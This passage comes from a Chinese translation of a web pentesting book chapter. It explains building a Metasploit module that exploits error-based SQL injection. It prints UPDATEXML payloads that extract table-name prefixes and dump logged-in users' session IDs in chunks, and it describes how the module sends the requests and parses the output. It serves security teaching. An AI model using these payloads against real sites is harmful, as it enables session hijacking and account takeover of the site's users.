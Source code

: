 以下 SQL 查询被发送到服务器，返回表名前缀的 Base64 编码值：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/175502cd-5b6a-477e-860a-0e6eade8e1d6.png)

这可以如下所示：

```
(UPDATEXML(2170,CONCAT(0x2e,0x#{start_h},(SELECT MID((IFNULL(CAST(TO_BASE64(table_name) AS CHAR),0x20)),1,22) FROM information_schema.tables order by update_time DESC LIMIT 1),0x#{fin_h}),4879))
```

可以在此处看到发送到 Web 服务器的请求的屏幕截图：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/33683472-0583-44e1-821d-074d99fd1c4d.png)

网络服务器返回表名前缀的 Base64 编码值，如下所示，在`ABC`之间：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/9d256823-36e9-4d9c-8fc9-284a588ff85b.png)

以下屏幕截图显示了用于转储用户会话的 SQL 查询：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/aa19bb5a-5181-4a86-baf9-140f996e7ce7.png)

如下所示：

```
(UPDATEXML(2170,CONCAT(0x2e,0x414243,(SELECT MID(session_id,1,42) FROM ntnsi_session where userid!=0 LIMIT 1),0x414243),4879))
```

请求使用`send_request_cgi()`方法发送。服务器将返回`内部服务器错误`错误（代码`500`），但我们可以使用十六进制值——换句话说，`#{start_h}`和`#{fin_h}`——作为正则表达式从输出中查找会话。以下截图显示了查找十六进制值之间会话的代码：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/722f98bd-9f1f-45aa-bae1-d37bebb5b1f0.png)

以下截图显示了发送到服务器以转储会话信息的 SQL 查询：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/410b4f1a-403d-4459-a341-f7ea5d58b63c.png)

以下截图显示了 Web 服务器的响应，显示了用户的会话：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/41f1f4b3-c48a-4d73-969c-3e77d866b616.png)

如下所示，从数据库中检索到了会话，但在我们的情况下，我们遇到了一个问题；似乎存在字符限制：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/520c75b5-e6ea-4042-8d12-3642c2ebed67.png)

查看数据库中的值，我们可以看到并没有返回所有字符，如下所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/8bc9e70e-01c8-4ab4-b180-4595f2bce4a9.png)

最后三个具有十六进制值`ABC`的字符未显示在屏幕上。为了解决这个问题，我们可以使用一个解决方法，即不使用单个查询从数据库中检索会话，而是使用`MID()`函数将会话分为两部分。

需要使用的第一个 SQL 会话负载`1`如下所示：

```
(UPDATEXML(2170,CONCAT(0x2e,0x414243,(SELECT MID(session_id,1,15) FROM ntnsi_session where userid!=0 order by time desc LIMIT 1),0x414243),4879))
```
